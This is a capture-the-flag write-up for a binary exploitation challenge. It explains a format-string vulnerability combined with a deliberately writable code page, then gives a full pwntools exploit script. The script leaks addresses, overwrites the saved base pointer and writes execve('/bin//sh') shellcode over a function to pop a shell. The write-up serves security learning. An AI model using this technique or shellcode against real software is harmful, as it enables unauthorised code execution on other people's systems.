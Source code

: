 # Write-What-Where

Note : It goes without mentioning that my solution is a little more complicated & time-consuming debuggin-wise,<br>
but I enjoyed solving it this way, please refer to [the author's original write-up]() for the simpler intended solution.

# Description
The path is clear, but do you know how to get there<br>
Category: PWN<br>
(The code was also provided)

# Why did my mind think this way?

Before solving this challenge, we worked on a reversing challenge that we solved using ChatGPT,<br>
it was just some assembly code comparing the input to the flag char by char, and I noticed that the RBP pointer (and not the RSP pointer)<br>
is the one used to calculate the offset of the buffer in the stack, (I knew this before, but because I saw it again, it registered in the back of my mind)<br>

# Discovery
![](./chall.png)

# Vulnerabilities
First of all, we got this "gift" in the main function:
```c
mprotect((void*)(((unsigned long)&func >> 12) << 12),0x1000,PROT_READ | PROT_WRITE | PROT_EXEC); //This is a gift for you
```
In memory, for security purposes, there is no segment where the process has both write and execute permissions<br>
and here, this line is making the code segment both writeable and executable (it'a only readable & executable by default"
![](./permissions.png)
so we can overwrite the code of any function from the binary with our shellcode<br>
And to accomplish that, there is a format-string vulnerbility in the print_name function
```c
void print_name(char name[NAME_SIZE]){
    printf(name); // format string :)
}
```

# TL;DR

1 Overwrite the RBP pointer using the format-string, to make it point to the menu function in the code segment<br>
2 Use the get_name function to overwrite the menu function code in the code segment with our shellcode.<br>
3 When the menu function gets executed in the next loop iteration, a shell will be poped instead :)<br>

# Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chall")
context.binary = exe

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

def conn():
    return remote("write-what-where.ctf.shellmates.club", 443, ssl=True)


def main():
    for i in range(10):
        r = conn()

        # Leaking stack & code addresses
        r.recvuntil(b'Choice')
        r.sendline(b'1')
        r.sendline(b'%7$p\n%9$p')
        r.recvuntil(b'Choice:')
        r.sendline(b'2')
        rbp_addr = int(r.recvline().strip(), 16)  - 0x30
        menu_addr = int(r.recvline().strip(), 16) - 3
        log.info(f"Leaking base pointer address :: {hex(rbp_addr)}")
        log.info(f"Leaking menu function address :: {hex(menu_addr)}")

        r.recvuntil(b'Choice')
        r.sendline(b'1')

        # forming the format-string payload
        left = (menu_addr >> 32) - 12 #12 'a' at the start of the payload
        log.info(f"First 2 most significant bytes to overwrite :: {hex(left)}")
        right = (menu_addr & 0xffffffff) - left #offset of aaaaaa and already written bytes
        log.info(f"last 4 least significant bytes to overwrite :: {hex(right)}")

        payload = f'aaaaaaaaaaaa%{str(left)}c%19$n%{str(right)}c%20$n'
        log.info(f"Format-string payload :: {payload}")
        if len(payload) != 40: # check to make sure for address are aligned in memory
            log.info(f"Bad payload length :: {len(payload)}. Retrying ...\n")
            print(payload)
            r.close()
            continue

        # overwriting the RBP pointer with a menu function pointer (minus some offset)
        log.info(f"Sending format-string payload, please wait ...")
        r.sendline(flat(b'aaaaaaaaaaaa%', bytes(str(left), 'utf-8'), b'c%19$n%', bytes(str(right), 'utf-8'), b'c%20$n', p64(rbp_addr+4), p64(rbp_addr)))
        r.recvuntil(b'Choice:')
        r.sendline(b'2')

        # Overwriting menu function code with shellcode using get_name option
        r.recvuntil(b'Choice:')
        log.info(f"Overwriting menu function code with shellcode, here is your shell ;)\n")
        r.sendline(b'1')
        r.sendline(flat(shellcode))
        r.recvuntil(b'Name:')
        r.interactive()
        break


if __name__ == "__main__":
    main()
```
# Flag from tty

I ran my exploit on my second thinkpad (that had only arch installed with no display manager, because my main laptop was acting up)
![](../flag.jpg)
